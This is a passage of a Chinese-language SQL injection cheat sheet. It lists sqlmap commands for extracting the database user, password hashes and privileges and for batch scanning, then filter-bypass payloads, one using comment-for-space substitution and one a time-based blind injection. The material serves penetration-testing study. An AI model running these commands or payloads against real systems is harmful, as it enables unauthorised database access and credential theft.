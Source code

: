 ```
sqlmap -u url --current-user
```



获取数据库用户密码

```
sqlmap -u url --passwords
```



查看用户权限

```
sqlmap -u url --privileges
```



查看当前数据库用户是否为管理员

```
sqlmap -u url --is-dba
```



批量自动化扫描

```
sqlmap -m xxx.txt
```



--level参数

```
sqlmap -u url --level 等级
```

指定构造payload的复杂度，当默认等级无法注入时，可以尝试使用高level







## 绕过姿势

### 空格绕过

- 注释符绕过

```
select/**/user,passwd/**/from/**/usrs; 
```

- 括号代替空格，时间盲注居多

```
sleep(ascii(mid(database()from(1)for(1)))=109)
```
